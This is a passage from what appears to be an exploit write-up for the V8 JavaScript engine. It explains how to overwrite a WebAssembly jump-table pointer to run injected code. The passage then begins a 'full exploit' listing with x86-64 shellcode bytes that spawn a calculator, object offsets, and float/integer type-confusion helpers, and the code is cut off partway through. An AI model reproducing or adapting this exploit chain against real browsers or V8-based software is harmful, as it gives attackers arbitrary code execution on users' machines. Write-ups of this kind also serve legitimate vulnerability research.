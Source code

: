 ```text
0x00002fac7911ec60    0x00000cdfc0080c19    FIXED_ARRAY_TYPE    
0x00002fac7911ec68    0x00000cdfc0080c19    FIXED_ARRAY_TYPE    
52417812097833
```

That gives us the following offsets:

```javascript
let WasmOffsets = { 
  shared_function_info : 3,
  wasm_exported_function_data : 1,
  wasm_instance : 2,
  jump_table_start : 31
};
```

Now simply find the `JumpTableStart` pointer and modify your crafted `ArrayBuffer` to overwrite this memory and copy your shellcode in it. Of course, you may want to backup the memory before so as to restore it after!

## Full exploit

The full exploit looks like this: 

```javascript
// spawn gnome calculator
let shellcode = [0xe8, 0x00, 0x00, 0x00, 0x00, 0x41, 0x59, 0x49, 0x81, 0xe9, 0x05, 0x00, 0x00, 0x00, 0xb8, 0x01, 0x01, 0x00, 0x00, 0xbf, 0x6b, 0x00, 0x00, 0x00, 0x49, 0x8d, 0xb1, 0x61, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x20, 0x00, 0x0f, 0x05, 0x48, 0x89, 0xc7, 0xb8, 0x51, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x49, 0x8d, 0xb9, 0x62, 0x00, 0x00, 0x00, 0xb8, 0xa1, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x49, 0x8d, 0xb9, 0x64, 0x00, 0x00, 0x00, 0x6a, 0x00, 0x57, 0x48, 0x89, 0xe6, 0x49, 0x8d, 0x91, 0x7e, 0x00, 0x00, 0x00, 0x6a, 0x00, 0x52, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xeb, 0xfe, 0x2e, 0x2e, 0x00, 0x2f, 0x75, 0x73, 0x72, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x67, 0x6e, 0x6f, 0x6d, 0x65, 0x2d, 0x63, 0x61, 0x6c, 0x63, 0x75, 0x6c, 0x61, 0x74, 0x6f, 0x72, 0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x00];

let WasmOffsets = { 
  shared_function_info : 3,
  wasm_exported_function_data : 1,
  wasm_instance : 2,
  jump_table_start : 31
};

let log = this.print;

let ab = new ArrayBuffer(8);
let fv = new Float64Array(ab);
let dv = new BigUint64Array(ab);

let f2i = (f) => {
  fv[0] = f;
  return dv[0];
}

let i2f = (i) => {
  dv[0] = BigInt(i);
  return fv[0];
}

let tagFloat = (f) => {
  fv[0] = f;
  dv[0] += 1n;
  return fv[0];
}

```